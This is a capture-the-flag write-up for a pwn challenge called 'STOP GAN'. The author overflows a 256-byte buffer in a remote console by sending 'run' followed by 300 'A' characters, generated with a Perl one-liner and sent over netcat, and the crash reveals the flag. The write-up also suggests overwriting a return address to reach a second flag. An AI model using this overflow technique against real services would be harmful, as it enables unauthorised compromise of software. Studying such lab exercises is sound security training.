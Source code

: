 # STOP GAN (pwn)

## Prompt

Success, you've gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two seperate things, you think you've rescue them and their brethren by downloading them all to your ships hard drive. They're still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It's important now to stop this program from destroying these "Cauliflowers" as they're referred to, ever again.

## Files

* `files.zip`: Provided zip file that contains `console.c` and `bof`.
* `console.c`: Source code for remote console.
* `bof`: Binary file that is presumably run from `console.c`.
* `exploit.txt`: Exploit string to cause buffer overflow.
* `flag.txt`: Solution to this challenge.

## Solution

`console.c` seems to be pretty simple. It stores user input in a 256 byte buffer, and if the beginning of the buffer is `run\n\0`, the buffer overflow binary will run. Let's see if this is how the remote console actually works:

```
$ nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands:
run
quit
>>run
Inputs: run
test
Cauliflower systems never crash >>

Console commands:
run
quit
>>
```

Great, this matches the provided source code and we can start trying to get the buffer to overflow. What's really interesting is that `bof` takes input before it will print the taunt `Cauliflower systems never craash >>`. If we print enough characters after the `run` command perhaps this buffer will overflow. 

Perl can be used to generate an exploit string without having to type a large number of character. The string will be constructed to start with the `run` command, newline to imitate an Enter key being pressed, and then a number of garbage bytes. 

```
perl -e 'print "run"."\x0a\x00"."A"x300' > exploit.txt
```

I chose 300 bytes because the buffer used in the console is 256 bytes, so 300 seemed safe. Now the exploit string can be copied into the console and run, then press enter to get the flag!

```
$ nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands:
run
quit
>>run
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAInputs: run

CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
Console commands:
run
quit
>>
``` 

Yay! But if you read the `console.c` file you will know that there is another flag hidden within this challenge. 

```
/**
 * 6e: bufferflow triggering segfault  - binary, compile with:
 * gcc /tmp/console.c -o /tmp/console -static -s
 *
 * Console allows the player to get info on the binary.
 * Crashing bof will trigger the 1st flag.
 * Controlling the buffer overflow in bof will trigger the 2nd flag.
 */
```

Controlling the buffer overflow will lead you to a second flag. This is probably why the `bof` binary was included.That part is left as an exercise to the reader, but I think a good starting place would be to try to look for interesting functions in `bof` and then use the buffer overflow to overwrite the return address, tricking the program into running those functions. 
